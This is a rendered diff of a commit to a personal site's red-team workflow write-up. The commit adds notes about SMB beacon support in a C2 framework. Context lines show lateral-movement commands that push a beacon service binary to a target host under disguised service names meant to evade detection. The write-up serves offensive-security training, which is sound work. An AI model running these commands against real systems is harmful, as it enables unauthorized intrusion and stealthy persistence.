

Before and after one commit to stillbigjosh/stillbigjosh.github.io, a Markdown page: writeups/red-team-workflow.md, 2 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/writeups/red-team-workflow.md
+++ b/writeups/red-team-workflow.md
@@ -1028,6 +1028,8 @@ Create custom service name and binary name to reduce signature:
 jump psexec -b svcutil.exe -n "WinConfigSvc" -d "Manages system configuration updates" 10.1.10.11 /local/path/to/smb_x64_svc.exe
 ```
 
+> The SMB beacon would have been the best and realistic option for this, however Kharon Listener config doesn't yet support SMB. If you had to use the default Adaptix SMB beacon, run `link smb <target_ip> <pipe_name>` right after the command below to connect to the SMB beacon.
+
 ![](image/red-team-workflow/20260922165526.png)
 
 ![](image/red-team-workflow/20260922165516.png)
@@ -1109,6 +1111,8 @@ With a specific service name and custom binary name:
 ```
 jump scshell 10.1.10.11 /local/path/to/smb_x64_svc.exe -n defragsvc -b update.exe -s C$ -p C:\Windows
 ```
+
+> The SMB beacon would have been the best and realistic option for this, however Kharon Listener config doesn't yet support SMB as previously explained in section 5.2. If you had to use the default Adaptix SMB beacon, run `link smb <target_ip> <pipe_name>` right after the command below to connect to the SMB beacon.
 
 ![](image/red-team-workflow/20260922165815.png)
 
````
